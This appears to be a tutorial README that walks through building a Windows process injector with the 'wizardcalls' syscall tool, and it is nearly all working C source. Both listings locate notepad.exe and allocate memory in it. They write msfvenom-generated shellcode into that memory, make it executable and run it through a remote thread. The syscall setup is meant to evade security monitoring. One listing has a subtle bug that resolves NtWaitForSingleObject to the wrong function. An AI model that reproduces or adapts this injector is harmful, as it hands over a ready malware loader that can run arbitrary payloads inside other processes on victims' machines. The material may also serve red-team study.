

# Writing an injector with wizardcalls
In this tutorial, we will create an injector that runs entirely from wizardcalls. 

## Step 0; Architecting the injector
The first step is to design the injectors functionality. At a high level, our injector will search target processes on the host, locate a target process & inject some shellcode into it.

The source code below is the base source code for the injector, **without wizardcalls** implemented. This code will search for a notepad.exe process on the host & inject some calculator shellcode into it using classic remote process injection using standard syscalls.

###### Running the base injector


###### Injector source code
```c
# define _CRT_SECURE_NO_WARNINGS

# include <windows.h>
# include <winternl.h>
# include <stdio.h>

# define STATUS_INFO_LENGTH_MISMATCH 0xC0000004
# define SUCCESS 0x0

# define TARGET_PROCESS L"notepad.exe"

/* --- Syscall Prototypes --- */

typedef NTSTATUS ( NTAPI* fpNtQuerySystemInformation ) (
    _In_ int SystemInformationClass,
    _Out_writes_bytes_opt_(SystemInformationLength) PVOID SystemInformation,
    _In_ ULONG SystemInformationLength,
    _Out_opt_ PULONG ReturnLength
);

typedef NTSTATUS( NTAPI* fpNtAllocateVirtualMemory ) (
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress, _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize) _Post_readable_byte_size_(*RegionSize)) PVOID *BaseAddress,
    _In_ ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType,
    _In_ ULONG PageProtection
);

typedef NTSTATUS( NTAPI* fpNtWriteVirtualMemory ) (
    _In_ HANDLE ProcessHandle,
    _In_opt_ PVOID BaseAddress,
    _In_reads_bytes_(NumberOfBytesToWrite) PVOID Buffer,
    _In_ SIZE_T NumberOfBytesToWrite,
    _Out_opt_ PSIZE_T NumberOfBytesWritten
);

typedef NTSTATUS( NTAPI* fpNtProtectVirtualMemory ) (
    _In_ HANDLE ProcessHandle,
    _Inout_ PVOID *BaseAddress,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG NewProtection,
    _Out_ PULONG OldProtection
);

typedef NTSTATUS( NTAPI* fpNtCreateThreadEx ) (
    _Out_ PHANDLE ThreadHandle,
    _In_ ACCESS_MASK DesiredAccess,
    _In_opt_ POBJECT_ATTRIBUTES ObjectAttributes,
    _In_ HANDLE ProcessHandle,
    _In_ PVOID StartRoutine,
    _In_opt_ PVOID Argument,
    _In_ ULONG CreateFlags, // THREAD_CREATE_FLAGS_*
    _In_ SIZE_T ZeroBits,
    _In_ SIZE_T StackSize,
    _In_ SIZE_T MaximumStackSize,
    _In_opt_ PVOID AttributeList
    );

typedef NTSTATUS( NTAPI* fpNtOpenProcess ) (
    _Out_ PHANDLE ProcessHandle,
    _In_ ACCESS_MASK DesiredAccess,
    _In_ PVOID ObjectAttributes,
    _In_opt_ CLIENT_ID *ClientId
);

typedef NTSTATUS( NTAPI* fpNtWaitForSingleObject ) (
    _In_ HANDLE Handle,
    _In_ BOOLEAN Alertable,
    _In_opt_ PLARGE_INTEGER Timeout
);

/* msfvenom -p windows/x64/exec cmd=calc.exe exitfunc=thread */
unsigned char shellcode[] = {
	0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
	0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
	0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
	0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
	0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
	0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
	0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
	0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
	0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
	0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
	0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
	0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
	0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
	0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
	0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
	0x65, 0x78, 0x65, 0x00
};

int main() {

    PVOID                       pSPIBuffer               = 0,
                                pShellcode               = 0;
    ULONG                       SPIBufferLength          = 0,
                                SPIBufferLength2         = 0,
                                OldProtection            = 0;
    NTSTATUS                    Status                   = 0;
    HMODULE                     hNtdll                   = GetModuleHandleA( "ntdll.dll" );
    PSYSTEM_PROCESS_INFORMATION pProcess                 = 0,
                                hThread                  = 0;
    HANDLE                      hTargetProcess           = 0;
    SIZE_T                      BytesWritten             = 0,
                                ShellcodeSize            = sizeof(shellcode);
    fpNtQuerySystemInformation  NtQuerySystemInformation = ( fpNtQuerySystemInformation )GetProcAddress( hNtdll, "NtQuerySystemInformation" );
    fpNtAllocateVirtualMemory   NtAllocateVirtualMemory  = ( fpNtAllocateVirtualMemory )GetProcAddress( hNtdll, "NtAllocateVirtualMemory" );
    fpNtOpenProcess             NtOpenProcess            = ( fpNtOpenProcess )GetProcAddress( hNtdll, "NtOpenProcess" );
    fpNtWriteVirtualMemory      NtWriteVirtualMemory     = ( fpNtWriteVirtualMemory )GetProcAddress( hNtdll, "NtWriteVirtualMemory" );
    fpNtProtectVirtualMemory    NtProtectVirtualMemory   = ( fpNtProtectVirtualMemory )GetProcAddress( hNtdll, "NtProtectVirtualMemory" );
    fpNtCreateThreadEx          NtCreateThreadEx         = ( fpNtCreateThreadEx )GetProcAddress( hNtdll, "NtCreateThreadEx" );
    fpNtWaitForSingleObject     NtWaitForSingleObject    = ( fpNtWaitForSingleObject )GetProcAddress( hNtdll, "NtCreateThreadEx" );
    CLIENT_ID                   ClientId                 = { 0 };
    OBJECT_ATTRIBUTES           OA                       = { 0 };
    LARGE_INTEGER               LargeInt                 = { 0 };

    InitializeObjectAttributes(&OA, NULL, 0, NULL, NULL);

    /* --- Get a handle to the target process --- */
    Status = NtQuerySystemInformation( SystemProcessInformation, 0, 0, &SPIBufferLength );
    if ( Status != STATUS_INFO_LENGTH_MISMATCH && Status != SUCCESS )
    {
        printf("Could not get the required buffer length. Error: 0x%0.8X\n", Status);
        return -1;
    }

    Status = NtAllocateVirtualMemory( ( HANDLE )-1, &pSPIBuffer, 0, ( PSIZE_T )&SPIBufferLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( Status != SUCCESS )
    {
        printf("Failed to allocate buffer for processes. Error 0x%0.8X\n", Status);
        return -1;
    }

    Status = NtQuerySystemInformation( SystemProcessInformation, pSPIBuffer, SPIBufferLength, &SPIBufferLength2);
    if ( Status != SUCCESS )
    {
        printf("Could not get system processes. Error: 0x%0.8X\n", Status );
        return -1;
    }

    pProcess = ( PSYSTEM_PROCESS_INFORMATION )pSPIBuffer;

    while ( pProcess->NextEntryOffset != 0 )
    {
        if ( pProcess->ImageName.Buffer != 0 )
        {
            if ( wcscmp( pProcess->ImageName.Buffer, TARGET_PROCESS ) == 0)
            {
                ClientId.UniqueProcess = pProcess->UniqueProcessId;
                Status = NtOpenProcess( &hTargetProcess, PROCESS_ALL_ACCESS, &OA, &ClientId );
                if (Status != SUCCESS)
                {
                    printf( "Failed to open handle to %S. Error: 0x%0.8X\n", TARGET_PROCESS, Status );
                    return -1;
                }
                printf("Acuired handle to %S (%d)\n", pProcess->ImageName.Buffer, ( DWORD)(DWORD_PTR)pProcess->UniqueProcessId);
                break;
            }
        }
        pProcess = ( PSYSTEM_PROCESS_INFORMATION )( (PBYTE)pProcess + pProcess->NextEntryOffset );
    }

    if ( !hTargetProcess )
    {
        printf("Could not find %S\n", TARGET_PROCESS);
        return -1;
    }

    /* --- Inject shellcode to target process ---*/
    Status = NtAllocateVirtualMemory( hTargetProcess, &pShellcode, 0, &ShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( Status != SUCCESS )
    {
        printf("Could not allocate buffer for shellcode\n");
        return -1;
    }

    Status = NtWriteVirtualMemory( hTargetProcess, pShellcode, shellcode, ShellcodeSize, &BytesWritten);
    if ( Status != SUCCESS )
    {
        printf("Could not write shellcode to target buffer in %S\n", TARGET_PROCESS);
        return -1;
    }

    Status = NtProtectVirtualMemory( hTargetProcess, &pShellcode, &ShellcodeSize, PAGE_EXECUTE_READ, &OldProtection );
    if ( Status != SUCCESS )
    {
        printf( "Could not set memory protections on shellcode buffer in %S\n", TARGET_PROCESS );
        return -1;
    }
    
    Status = NtCreateThreadEx( &hThread, THREAD_ALL_ACCESS, &OA, hTargetProcess, pShellcode, 0, 0, 0, 0, 0, 0);
    if ( Status != SUCCESS )
    {
        printf( "Failed to create thread in %S\n", TARGET_PROCESS );
        return -1;
    }

    LargeInt.QuadPart = INFINITE;
    
    NtWaitForSingleObject( hThread, FALSE, &LargeInt );
    printf("DONE!");
    return 0;
}
```

### Step 1; Generating the wizardcalls template
In step 0, we created an injector which used syscalls to locate a target process & inject some shellcode to it. To do this, the following syscalls were used:
- NtCreateThreadEx
- NtProtectVirtualMemory
- NtWriteVirtualMemory
- NtAllocateVirtualMemory
- NtQuerySystemInformation
- NtOpenProcess
- NtWaitForSingleObject

Now, we'll need to feed these syscalls to wizardcalls. Let's use the following command line to generate the wizardcalls template for the injector.

```
wizardcalls --syscalls NtWaitForSingleObject, NtOpenProcess,NtQuerySystemInformation,NtAllocateVirtualMemory,NtWriteVirtualMemory,NtProtectVirtualMemory,NtCreateThreadEx --debug --globals
```

###### Generating the wizardcalls template


## Step 2; Importing wizardcalls into the injector

Converting current source code is fairly straight forward. In this example, we performed the following operations
- Import the **wizardcalls.h** header file
- Remove code related to syscall prototypes & address pointers
- Added the **WzDInit()** macro to the top of **main()**

No adjustments are required for the syscalls since the function pointer variable names match the syscall function names exported in the wizardcalls header file. This form of testing allows for a plug-and-play style architecture.

###### Executing the injector with wizardcalls  


###### Wizardcalls injector source code
```c
# define _CRT_SECURE_NO_WARNINGS

# include "wizardcalls.h"
# include <winternl.h>
# include <stdio.h>

# define STATUS_INFO_LENGTH_MISMATCH 0xC0000004
# define SUCCESS 0x0

# define TARGET_PROCESS L"notepad.exe"

/* msfvenom -p windows/x64/exec cmd=calc.exe exitfunc=thread */
unsigned char shellcode[] = {
	0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
	0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
	0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
	0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
	0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
	0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
	0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
	0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
	0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
	0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
	0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
	0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
	0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
	0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
	0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
	0x65, 0x78, 0x65, 0x00
};

int main() {

    PVOID                       pSPIBuffer               = 0,
                                pShellcode               = 0;
    ULONG                       SPIBufferLength          = 0,
                                SPIBufferLength2         = 0,
                                OldProtection            = 0;
    NTSTATUS                    Status                   = 0;
    PSYSTEM_PROCESS_INFORMATION pProcess                 = 0,
                                hThread                  = 0;
    HANDLE                      hTargetProcess           = 0;
    SIZE_T                      BytesWritten             = 0,
                                ShellcodeSize            = sizeof(shellcode);
    CLIENT_ID                   ClientId                 = { 0 };
    OBJECT_ATTRIBUTES           OA                       = { 0 };
    LARGE_INTEGER               LargeInt                 = { 0 };

    InitializeObjectAttributes(&OA, NULL, 0, NULL, NULL);

    /* --- Initialize system calls --- */
    WzDInit();

    /* --- Get a handle to the target process --- */

    Status = NtQuerySystemInformation( SystemProcessInformation, 0, 0, &SPIBufferLength );
    if ( Status != STATUS_INFO_LENGTH_MISMATCH && Status != SUCCESS )
    {
        printf("Could not get the required buffer length. Error: 0x%0.8X\n", Status);
        return -1;
    }

    Status = NtAllocateVirtualMemory( ( HANDLE )-1, &pSPIBuffer, 0, ( PSIZE_T )&SPIBufferLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( Status != SUCCESS )
    {
        printf("Failed to allocate buffer for processes. Error 0x%0.8X\n", Status);
        return -1;
    }

    Status = NtQuerySystemInformation( SystemProcessInformation, pSPIBuffer, SPIBufferLength, &SPIBufferLength2);
    if ( Status != SUCCESS )
    {
        printf("Could not get system processes. Error: 0x%0.8X\n", Status );
        return -1;
    }

    pProcess = ( PSYSTEM_PROCESS_INFORMATION )pSPIBuffer;

    while ( pProcess->NextEntryOffset != 0 )
    {
        if ( pProcess->ImageName.Buffer != 0 )
        {
            if ( wcscmp( pProcess->ImageName.Buffer, TARGET_PROCESS ) == 0)
            {
                ClientId.UniqueProcess = pProcess->UniqueProcessId;
                Status = NtOpenProcess( &hTargetProcess, PROCESS_ALL_ACCESS, &OA, &ClientId );
                if (Status != SUCCESS)
                {
                    printf( "Failed to open handle to %S. Error: 0x%0.8X\n", TARGET_PROCESS, Status );
                    return -1;
                }
                printf("Acuired handle to %S (%d)\n", pProcess->ImageName.Buffer, ( DWORD)(DWORD_PTR)pProcess->UniqueProcessId);
                break;
            }
        }
        pProcess = ( PSYSTEM_PROCESS_INFORMATION )( (PBYTE)pProcess + pProcess->NextEntryOffset );
    }

    if ( !hTargetProcess )
    {
        printf("Could not find %S\n", TARGET_PROCESS);
        return -1;
    }

    /* --- Inject shellcode to target process ---*/
    Status = NtAllocateVirtualMemory( hTargetProcess, &pShellcode, 0, &ShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( Status != SUCCESS )
    {
        printf("Could not allocate buffer for shellcode\n");
        return -1;
    }

    Status = NtWriteVirtualMemory( hTargetProcess, pShellcode, shellcode, ShellcodeSize, &BytesWritten);
    if ( Status != SUCCESS )
    {
        printf("Could not write shellcode to target buffer in %S\n", TARGET_PROCESS);
        return -1;
    }

    Status = NtProtectVirtualMemory( hTargetProcess, &pShellcode, &ShellcodeSize, PAGE_EXECUTE_READ, &OldProtection );
    if ( Status != SUCCESS )
    {
        printf( "Could not set memory protections on shellcode buffer in %S\n", TARGET_PROCESS );
        return -1;
    }
    
    Status = NtCreateThreadEx( &hThread, THREAD_ALL_ACCESS, &OA, hTargetProcess, pShellcode, 0, 0, 0, 0, 0, 0);
    if ( Status != SUCCESS )
    {
        printf( "Failed to create thread in %S\n", TARGET_PROCESS );
        return -1;
    }

    LargeInt.QuadPart = INFINITE;
    
    NtWaitForSingleObject( hThread, FALSE, &LargeInt);
    printf("DONE!");
    return 0;
}
```